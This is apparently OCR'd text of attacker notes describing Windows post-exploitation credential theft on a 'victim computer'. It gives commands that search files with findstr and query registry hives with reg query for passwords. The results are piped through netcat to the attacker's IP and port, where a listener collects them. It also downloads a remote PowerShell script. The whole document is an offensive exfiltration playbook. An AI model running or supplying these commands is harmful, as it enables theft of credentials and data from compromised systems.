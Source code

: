 TO FORMAT

1) get a remote powershell instance on the victim computer, and netcat.
2) set the following vars:
$ip = yourip
$port = exfiltration_port
$nc = /path/to/nc.exe

3) on your computer:
nc -nlp exfiltration_port > password-search.txt

4) on remote computer:
findstr /si password \*.xml \*.ini \*.txt | $nc $ip $port

echo $Env:PSModulePath

Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1

dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*

findstr /si password \*.xml \*.ini \*.txt

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

